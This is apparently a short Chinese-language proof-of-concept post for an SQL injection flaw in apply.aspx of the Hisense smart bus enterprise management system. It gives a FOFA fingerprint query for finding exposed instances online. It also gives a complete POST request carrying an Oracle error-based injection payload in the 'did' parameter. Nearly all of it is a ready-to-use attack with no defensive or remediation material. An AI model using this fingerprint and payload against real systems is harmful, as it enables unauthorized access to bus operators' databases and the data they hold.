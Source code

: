 # 海信智能公交企业管理系统apply.aspx存在SQL注入漏洞

海信智能公交企业管理系统是一套以智慧车、智慧站、智慧场为基础，以大数据和人工智能技术的公交云脑为核心，旨在全面提升公交企业的安全保障能力、运营生产效率、企业管理水平、决策分析能力和乘客出行体验的综合管理系统。海信智能公交企业管理系统apply.aspx存在SQL注入漏洞

## fofa

```javascript
body="var _FactoryData"
```

## poc

```javascript
POST /YZSoft/Forms/XForm/OA/apply.aspx?tid=-1&did=-1%27+AND+4208%3D%28SELECT+UPPER%28XMLType%28CHR%2860%29%7C%7CCHR%2858%29%7C%7CCHR%28113%29%7C%7CCHR%28118%29%7C%7CCHR%2898%29%7C%7CCHR%28107%29%7C%7CCHR%28113%29%7C%7C%28SELECT+%28CASE+WHEN+%284208%3D4208%29+THEN+1+ELSE+0+END%29+FROM+DUAL%29%7C%7CCHR%28113%29%7C%7CCHR%28113%29%7C%7CCHR%28122%29%7C%7CCHR%28120%29%7C%7CCHR%28113%29%7C%7CCHR%2862%29%29%29+FROM+DUAL%29--+dSSu HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
```

![image-20241122151741850](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411221517939.png)